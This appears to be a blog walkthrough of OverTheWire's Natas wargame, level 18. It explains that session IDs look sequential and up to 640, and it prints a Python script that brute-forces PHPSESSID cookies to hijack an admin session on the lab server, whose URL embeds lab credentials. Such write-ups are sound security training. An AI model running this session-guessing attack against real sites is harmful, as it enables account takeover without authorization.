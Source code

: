 This level is apparently designed to give us the password for the next level if we have a flag &#8220;admin&#8221; equal to 1. The code where &#8220;admin&#8221; is updated has been commented out, so we&#8217;re going to have to go about it another way. Notice at the top of the sourcecode is gives us a limit to the session id, 640. That suggests it&#8217;s incremental, and we can hijack an admin session by guessing the session id.

This is the code I used for the bruteforcing.

<pre class="lang:python decode:true">#!/usr/bin/python3
# Script to brute force level 18 of natas challenges

# Library to work with the POST requests
import requests

# Good message to search for
gstr = "Password"

# Our target URL
target = 'http://natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP@natas18.natas.labs.overthewire.org/'

# Check if we can connect to the target
r = requests.get(target)
if r.status_code != requests.codes.ok:
        raise ValueError('Couldn\'t connect to target :(')
else:
        print('Target reachable. Starting character parsing...')

# Send request with incrementing session id in a loop until we get admin
session = 0
while(True):
	session += 1
	print("Attempting Session ID: " + str(session))
	headers = {'Cookie': 'PHPSESSID=' + str(session)}
	r = requests.get(target, headers=headers)
	if gstr in r.text:
		print("Password Found!")
		print(r.text)
		break</pre>

&nbsp;

### LEVEL 19

<img class="alignnone size-full wp-image-256" src="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-16_08h37_57.png" alt="" width="600" height="335" srcset="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-16_08h37_57.png 600w, http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-16_08h37_57-300x168.png 300w" sizes="(max-width: 600px) 100vw, 600px" /> 
